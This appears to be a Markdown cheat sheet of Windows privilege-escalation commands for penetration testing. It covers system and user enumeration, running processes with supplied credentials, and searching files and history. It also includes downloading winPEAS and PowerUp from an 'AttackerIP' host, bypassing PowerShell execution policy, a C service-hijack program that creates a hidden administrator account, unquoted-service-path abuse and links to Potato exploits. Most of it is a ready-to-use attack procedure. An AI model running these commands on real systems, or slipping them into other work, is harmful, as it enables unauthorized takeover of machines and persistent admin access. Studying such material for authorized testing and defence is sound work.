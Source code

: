 # Escalation

Cli escalation in current directory:
```
powershell.exe -Command "Start-Process cmd \"/k cd /d %cd%\" -Verb RunAs"
```

Other user authentication: https://stackoverflow.com/questions/28989750/running-powershell-as-another-user-and-launching-a-script
```
Start-Process powershell.exe -Credential “domain\username” -NoNewWindow -ArgumentList “Start-Process powershell.exe -Verb runAs”
```

```
$username = 'user'
$password = 'password'

$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process Notepad.exe -Credential $credential
```

## Info

### Targets

- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes

### Users

```
whoami
whoami /priv
whoami /groups
net user
get-localuser
```

### Groups

```
net localgroup
Get-LocalGroup
Get-LocalGroupMember somegroup
```

### System

Windows versions: https://en.wikipedia.org/wiki/List_of_Microsoft_Windows_versions#/media/File:Windows_Version_History.svg
```
ver
systeminfo
```

### Network

```
ipconfig
ipconfig /all
route print
netstat -ano
```

### Programs

Invoke-command: https://devblogs.microsoft.com/scripting/use-powershell-to-find-installed-software/
```
Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, Publisher, InstallDate |
Format-Table -AutoSize
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
Registry keys: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-childitem?view=powershell-7.3
```
Get-ChildItem -Path HKLM:\HARDWARE
```

### Processes

source: https://stackoverflow.com/questions/31374644/get-process-location-path-using-powershell
```
Get-Process
Get-Process -name someprocess |  % { $_.Path + " " + $_.Id}
Get-Process | Select-Object Path
Get-Process | Select-Object -ExpandProperty Path
Get-Process | ForEach-Object {$_.Path}
(Get-Process -Name someprocess).path
(Get-Process -Id someid).path
```

## Other searches

### Files

```
Get-ChildItem -Path C:\ -Include *.extension -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\*.txt -Recurse -Force
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue | select-object name
```

### History
```
Get-History
(Get-PSReadlineOption).HistorySavePath
```

### WinPeas (Seatbelt, JAWS)

```
cd /usr/share/peass/winpeas/winPEASx64.exe
python3 -m http.server 8088
iwr -uri http://AttackerIP/winPEASx64.exe -Outfile winPEAS.exe

seatbelt.exe -group=all
```
Tools:
- https://github.com/carlospolop/PEASS-ng
- https://github.com/GhostPack/Seatbelt
- https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
- https://github.com/Marshall-Hallenbeck/compiled_binaries
- https://github.com/411Hall/JAWS

## Services

```
Get-CimInstance -ClassName win32_service | Select Name, StartMode, State, PathName | Where-Object {$_.State -like 'Running'}
Get_ACL
icacls
```

### Hijacking

#### Manual

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user someuser somepass /add");
  i = system ("net localgroup administrators someuser /add");
  
  return 0;
}

x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

#### Auto

```
cd /usr/share/windows-resources/powersploit/Privesc/
python3 -m http.server 80

iwr -uri http://AttackerIP/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
```

### Unquoted service path

```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
icacls c:\all\the\paths
Get-UnquotedService
Write-ServiceBinary -name 'vulnerablepathservice' -path "C:\unquoted path\"
```

## Other components

### Scheduled tasks

```
schtasks /query /fo LIST /v
```

### Exploits

- https://github.com/itm4n/PrintSpoofer
- https://jlajara.gitlab.io/Potatoes_Windows_Privesc



